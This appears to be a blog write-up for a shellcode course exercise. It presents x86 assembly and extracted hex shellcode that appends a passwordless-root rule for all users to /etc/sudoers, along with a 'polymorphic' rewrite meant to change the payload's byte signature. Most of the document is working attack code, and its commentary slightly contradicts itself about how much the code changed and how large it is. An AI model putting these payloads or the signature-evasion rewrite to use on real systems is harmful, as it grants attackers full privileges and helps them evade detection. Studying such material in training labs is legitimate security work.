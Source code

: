 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 2 Sudoers
subtitle: Polymorphic Shellcode Part 2
tags: [SLAE]
---
```


Overview
======

The first chosen shellcode from shell-storm is the 'sudoers' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-62.php). This shellcode writes 'ALL ALL=(ALL) NOPASSWD: ALL\n' to the '/etc/sudoers' file.

The original code can be seen fully commented below:


```
global _start			

section .text
_start:


;open("/etc/sudoers", O_WRONLY | O_APPEND);
	xor eax, eax	; clearing eax register
	push eax	; pushing 0 to the stack
	push 0x7372656f ; pushing /etc/sudoers
	push 0x6475732f
	push 0x6374652f
	mov ebx, esp	; moving stack pointer to ebx
	mov cx, 0x401	; moving 1025 to ecx 
	mov al, 0x05	; moving 5 to eax for the open syscall
	int 0x80	; interupt to call syscall

	mov ebx, eax    ; move the returned fd into ebx

	;write(fd, ALL ALL=(ALL) NOPASSWD: ALL\n, len);
	xor eax, eax	; clear eax register again
	push eax	; push 0 to the stack
	push 0x0a4c4c41	; pushing ALL ALL=(ALL) NOPASSWD: ALL\n
	push 0x203a4457
	push 0x53534150
	push 0x4f4e2029
	push 0x4c4c4128
	push 0x3d4c4c41
	push 0x204c4c41
	mov ecx, esp	; moving stack pointer to ecx
	mov dl, 0x1c	; moving 28 to edx for the length
	mov al, 0x04	; moving 4 to eax for the write syscall
	int 0x80	; interupt to call syscall

	;close(file)
	mov al, 0x06	; move 6 to eax
	int 0x80	; interupt to call syscall

	;exit(0);
	xor ebx, ebx	; clear ebx register
	mov al, 0x01	; mov 1 to eax
	int 0x80	;interupt to call syscall
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen full annotated below:

```
global _start			

section .text
_start:


;open("/etc/sudoers", O_WRONLY | O_APPEND);
	xor edx, edx
	mul edx
	push edx
	
	mov ebx, 0x7372656f 
	push ebx
	mov ebx, 0x6475732f
	push ebx
	mov ebx, 0x6374652f
	push ebx
	mov ebx, esp
	mov cx, 0x401
	add al, 0x05
	int 0x80

	xchg ebx, eax  

	;write(fd, ALL ALL=(ALL) NOPASSWD: ALL\n, len);
	mul edx
	push edx
	push 0x0a4c4c41
	push 0x203a4457
	push 0x53534150
	push 0x4f4e2029
	push 0x4c4c4128
	push 0x3d4c4c41
	push 0x204c4c41
	mov ecx, esp
	add dl, 0x1c
	add al, 0x04
	int 0x80

	;close(file)
	mov al, 0x06
	int 0x80

	;exit(0);
	xor ebx, ebx
	mul ebx
	inc eax
	int 0x80
```

It can be clearly seen that the 'sudoers' section of the code is completely different from before, whilst maintaining a relatively small size. 

With this shellcode, it was a bit more difficult to rewrite it as was done with the first shellcode, so other techniques were used to make this code polymorphic. Due to this however, the codes size has increased. Different techniques were used to change this shellcode, including changing what registers were used, pushing data to the stack using registers and clearing registers differently. 


When compiled and the extracted, the shellcode appears as follows:

**Original**

```
"\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80"
```

**Polymorphic**

```
"\x31\xd2\xf7\xe2\x52\xbb\x6f\x65\x72\x73\x53\xbb\x2f\x73\x75\x64\x53\xbb\x2f\x65\x74\x63\x53\x89\xe3\x66\xb9\x01\x04\x04\x05\xcd\x80\x93\xf7\xe2\x52\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\x80\xc2\x1c\x04\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xf7\xe3\x40\xcd\x80"
```

As can be seen, the polymorphic shellcode greatly varies from the original and is less than 150% of the size of the original. 

